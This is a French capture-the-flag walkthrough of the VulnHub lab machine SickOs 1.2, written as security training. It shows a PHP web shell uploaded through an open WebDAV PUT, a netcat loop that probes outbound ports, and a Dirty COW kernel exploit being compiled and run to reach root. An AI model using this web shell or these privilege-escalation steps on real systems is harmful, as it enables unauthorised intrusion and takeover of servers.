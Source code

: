 # Solution du CTF SickOs 1.2 de VulnHub

[SickOs: 1.2](https://www.vulnhub.com/entry/sickos-12,144/) est le second et dernier opus de la série. Il s'agit d'un boot2root Linux.

Avce Nmap on voit deux ports ouverts, les autres étant filtrés :

```
Nmap scan report for 192.168.57.4
Host is up (0.00083s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:CE:36:33 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Une énumération sur le LigHTTPd (avec `gobuster`) ne retourne pas grand chose si ce n'est un dossier `test` vide. Jetons un oeil aux méthodes HTTP autorisées :

```http
$ curl -XOPTIONS -I http://192.168.57.4/test/
HTTP/1.1 200 OK
DAV: 1,2
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Allow: OPTIONS, GET, HEAD, POST
Content-Length: 0
Date: Fri, 10 Feb 2023 16:46:23 GMT
Server: lighttpd/1.4.28
```

## Du côté de chez DAV

On est clairement en présence d'un `WebDAV`. J'ai tenté d'uploader un fichier avec `cadaver` qui est un peu l'équivalent de la commande ftp pour `WebDAV`.

Malheureusement on obtient une erreur peu parlante. J'ai essayé aussi avec `cURL` (option `-T`) et J'ai capturé la requête et la réponse avec Wireshark :

```http
PUT /test/test.txt HTTP/1.1
Host: 192.168.57.4
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 5
Expect: 100-continue

HTTP/1.1 417 Expectation Failed
Content-Type: text/html
Content-Length: 363
Connection: close
Date: Fri, 10 Feb 2023 17:18:32 GMT
Server: lighttpd/1.4.28

<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>417 - Expectation Failed</title>
 </head>
 <body>
  <h1>417 - Expectation Failed</h1>
 </body>
</html>
```

WebDAV peut nécessiter une authentification simple (*Authorization Basic*) mais difficile de dire s'il s'agit de ça ici.

Je me suis basé sur cette article qui indique différentes commandes `cURL` pour dialoguer avec WebDAV : [WebDAV with cURL | Code](https://code.blogs.iiidefix.net/posts/webdav-with-curl/)

J'arrive par exemple à créer un sous-dossier :

```bash
curl -X MKCOL http://192.168.57.4/test/yolo/
```

Etrange. Dans la requête générée plus tôt par `cURL` on peut voir un entête `Expect` et le message d'erreur retourné semble y faire référence.

On va essayer plus basique en forgeant la requête avec `requests` :

```python
>>> import requests
>>> requests.put("http://192.168.57.4/test/shell.php", data='<?php system($_GET["cmd"]); ?>')
<Response [201]>
```

Youpi, ça fonctionne !

```http
PUT /test/shell.php HTTP/1.1
Host: 192.168.57.4
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Length: 30

<?php system($_GET["cmd"]); ?>

HTTP/1.1 201 Created
Content-Length: 0
Date: Fri, 10 Feb 2023 17:50:50 GMT
Server: lighttpd/1.4.28
```

## Vache folle

Les ports de la machine sont filtrés et ça semble aussi compliqué d'obtenir un reverse shell.

Netcat est présent sur la machine, on peut faire un scan de notre IP depuis la VM et écouter avec Wireshark ce qui est autorisé.

On peut se baser sur la top liste Nmap des 10 ports les plus communs histoire que ça ne prenne pas des plombes :

```bash
ports=( 21 22 23 25 80 110 139 443 445 3389 ) ; for p in "${ports[@]}" ; do nc -z -w 2 -v 192.168.57.1 $p ; done
```

On observe alors un paquet avec flag SYN sur notre port 443.

Via un reverse-ssh sur ce port on peut uploader et exécuter linpeas qui indique que le système est vulnérable à `Dirty COW` ou à la vulnérabilité `chkrootkit`.

J'ai utilisé le premier exploit. Il est ici instable, après quelques secondes la machine part en kernel panic, il faut prévoir le coup si on souhaite de la persistance.

```shellsession
www-data@ubuntu:/tmp$ PATH=/usr/lib/gcc/i686-linux-gnu/4.6/:$PATH gcc -o cowroot cowroot.c -lpthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
/usr/include/unistd.h:335:16: note: expected '__off_t' but argument is of type 'void *'
cowroot.c: In function 'main':
cowroot.c:141:5: warning: format '%d' expects argument of type 'int', but argument 2 has type '__off_t' [-Wformat]
www-data@ubuntu:/tmp$ ./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 41284
Racing, this may take a while..
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
thread stopped
thread stopped
root@ubuntu:/tmp# id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
```

Pour la faille chkrootkit il y a un exemple dans la [Solution du CTF SecTalks: BNE0x02 - Fuku de VulnHub](https://github.com/devl00p/blog/blob/60492c127f22bed556e62c9ab179657af85a6935/ctf_writeups/Solution%20du%20CTF%20SecTalks:%20BNE0x02%20-%20Fuku%20de%20VulnHub.md#fuku)

*Publié le 11 février 2023*
